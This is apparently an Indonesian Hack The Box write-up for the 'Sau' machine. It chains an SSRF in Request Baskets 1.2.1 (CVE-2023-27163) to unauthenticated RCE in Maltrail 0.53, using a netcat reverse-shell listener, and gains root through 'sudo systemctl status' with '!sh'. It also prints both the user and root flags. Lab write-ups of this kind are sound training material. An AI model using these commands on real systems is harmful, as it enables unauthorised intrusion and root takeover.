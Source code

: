 # Sau  
**SOLVED : 13 SEPT | 2023**  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/abe5246d-f3b9-4e4f-9336-42f552b0697d)  

## nmap
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/fe6b7754-9647-4603-a391-2710a78c4113)
  
```
nmap 10.10.11.224 -p- -sVC  --min-rate 1000
```
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/76a92f3a-8783-4a05-9465-faa647c0527f)  
Port yang open di **22** dan **55555**, maka dicoba diakses pada `10.10.11.224:55555`  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/f72067ae-be68-42ee-9c60-37a7bbbfb02e)  
  
## exploit
1. Pertama-tama dicoba untuk mengakses `10.10.11.224:55555` yang ternyata diarahkan kedalam sebuah "Request Baskets" dengan versi **1.2.1**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c142b35b-30f1-4c2e-b9ad-63e7abc44d70)  

2. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Request Baskets" dengan versi **1.2.1**, yaitu pada (CVE-2023-27163), disini kerentanannya adalah kemungkinan dilakukannya **Server-Side Request Forgery (SSRF)**  
   ```md
   # (CVE-2023-27163)
   Attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.
   Source : https://github.com/entr0pie/CVE-2023-27163
   ```
3. Dari sini, saya menggunakan tools untuk melakukan exploitasi dengan menggunakan https://github.com/entr0pie/CVE-2023-27163. Tools ini membantu untuk mengakses **port 80** yang sebelumnya berstatus **http filtered**.  
   Commands :
   ```
   ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
   ```
   
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/0f7b1fee-14fd-4498-9b5b-72f9184f5c40)
     
   Masukan token sesuai dengan yang diterakan pada tools.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/2c264771-06dc-43a4-ad9f-2c9d311ff997)
     
   Coba untuk mengakses `10.10.11.224:55555/qsaeyb` yang sebenarnya akan diarahkan pada **http** yakni di port 80.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f2642f0-346b-41d9-b594-fa93ef88110e)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/8c6b244b-dbaf-4cce-a92a-051c01c69dca)  
   Dapat dilihat pada website ini menampilkan situs **Mailtrail (v0.53)**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a964462b-83ac-47c3-984e-6a037e2b1153)
   Request juga tertangkap pada web sebagaimana fungsi asli dari "Request Baskets".  

4. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Mailtrail" dengan versi **0.53**, yaitu dapat dilakukan "Unauthenticated Remote Code Execution Exploit"
5. Dari sini, saya kembali menggunakan tools dari https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53 untuk melakukan exploitnya
   Command yang saya gunakan adalah  
   ```
   nc -lvnp 8333
   python3 exploit.py 10.10.16.42 8333 http://10.10.11.224:55555/qsaeyb/login
   ```
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/d35f770f-e674-4ced-81d3-692c825cfe44)  
   Jika belum melakukan _listen_ maka akan menuliskan "Login Failed" sama halnya dengan jika mengakses `http://10.10.11.224:55555/qsaeyb/login`  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c3629ccc-d094-4f24-bb4c-a019cb1ec9b9)
6. Setelah berhasil masuk, maka dilakukan pencarian _user.txt_
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a3be1d70-5eda-410b-843f-813eb7260985)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/39e74b81-b93f-484d-9f99-499dc0a1d428)  
   **USER FLAG : 22366e50cf5e2f0f6ccceacadf92fef1**

## privilege escalation  
1. Pertama-tama saya menjalankan command `sudo -l` untuk memeriksa permissions sudo yang dimiliki user puma.
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/e99f44e4-06f4-4afe-8c8e-fa155c20b8bc)
   dan disini terlihat bahwa `(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service`, maka untuk mengakses **systemctl status 
   trail.service** tidak memerlukan password  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/b7d58424-7d33-459c-a6e6-ee486938422e)
2. Untuk melakukan privilege escalation pada **sudo systemctl**, cukup menambahkan `!sh`, maka kita akan spawn shell lain, dan disini yang terjadi adalah shell dari root yang terbuka  
Sumber : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/b3e68dba-da9f-4449-993f-e8c77ef00190)  
3. Tahap berikutnya adalah mencari flag dari ROOT.  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f33f1ac-099e-4983-966c-c0a2f249ce42)  
   **ROOT FLAG : af1d5d215f180ea877ca659d9c7cdf88**
